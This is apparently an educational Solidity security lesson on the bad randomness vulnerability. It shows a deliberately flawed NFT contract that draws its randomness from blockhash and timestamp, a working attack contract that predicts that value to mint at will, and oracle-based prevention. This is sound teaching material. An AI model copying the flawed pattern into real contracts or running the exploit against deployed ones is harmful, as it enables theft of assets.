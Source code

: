 ```yaml
---
title: Bad Randomness
displayed_sidebar: generalSidebar
---
```


# Bad Randomness

## Pseudo-Random Numbers

Many applications on Ethereum, such as NFT random tokenId draws, blind box openings, and GameFi combat outcomes, rely on random numbers. However, since all data on Ethereum is public and deterministic, traditional random generation methods like `random()` are not available. Instead, projects often use pseudo-random number generators such as `blockhash()` and `keccak256()`. This approach, known as the Bad Randomness Vulnerability, allows attackers to predict outcomes, enabling them to manipulate results like minting specific rare NFTs.

This vulnerability is common in NFT and GameFi projects, including Meebits, Loots, and Wolf Game. It has led to significant financial losses, such as the SmartBillions Lottery exploit where attackers used predictable outcomes to win over 400 ETH. For more detailed information on this case, you can visit [ImmuneBytes](https://www.immunebytes.com/blog/bad-randomness-in-solidity-smart-contracts/).

Another related risk, although not due to randomness, was The DAO Hack, which resulted in a loss of around $60 million worth of Ether and led to a controversial hard fork of the Ethereum blockchain. For a comprehensive review of The DAO Hack and its implications on the Ethereum community, check out [CoinDesk](https://www.coindesk.com/consensus-magazine/2023/05/09/coindesk-turns-10-how-the-dao-hack-changed-ethereum-and-crypto/).

## Example of a Bad Randomness Vulnerability

Let's explore a vulnerable NFT contract, `FlawedRandomizer.sol`.

```solidity
contract FlawedRandomizer is ERC721 {
    uint256 public totalMints;

    // Constructor initializes the NFT collection's name and symbol.
    constructor() ERC721("", ""){}

    // Mint function: mints only when the input luckyNumber equals the random number.
    function mintIfLucky(uint256 guessedNumber) public {
        uint256 pseudoRandomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // Get pseudo-random number
        require(pseudoRandomNumber == guessedNumber, "Try again next time!");

        _mint(msg.sender, totalMints);
        totalMints++;
    }
}
```

The main function `mintIfLucky()` requires users to enter a number between `0-99`. If it matches the chain-generated pseudo-random number `pseudoRandomNumber`, they can mint a lucky NFT. The vulnerability lies in the ability of users to perfectly predict the generated random number and mint the NFT.

Let's write an attack contract `Exploit.sol`.

```solidity
contract Exploit {
    function executeMint(FlawedRandomizer nftAddress) public {
        // Calculate the random number in advance
        uint256 predictedNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Use predictedNumber to execute the attack
        nftAddress.mintIfLucky(predictedNumber);
    }
}
```

The function `executeMint()` takes a `FlawedRandomizer` contract address as a parameter. Here, we calculate the `predictedNumber` and then pass it to the `mintIfLucky()` function to execute the attack. Since both `executeMint()` and `mintIfLucky()` are called in the same block, the `blockhash` and `block.timestamp` are the same, making the generated random number predictable.

## Prevention

We usually use off-chain random numbers provided by oracle projects to prevent this type of vulnerability, such as Chainlink VRF. These random numbers are generated off-chain and uploaded to the blockchain, ensuring they are unpredictable. For more information, read [WTF Solidity Tutorial, Lesson 39: Pseudo-Random Numbers](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

This lesson introduced the bad randomness vulnerability and a simple prevention method: using off-chain random numbers provided by oracle projects. NFT and GameFi projects should avoid using on-chain pseudo-random numbers for lotteries to prevent exploitation by hackers.
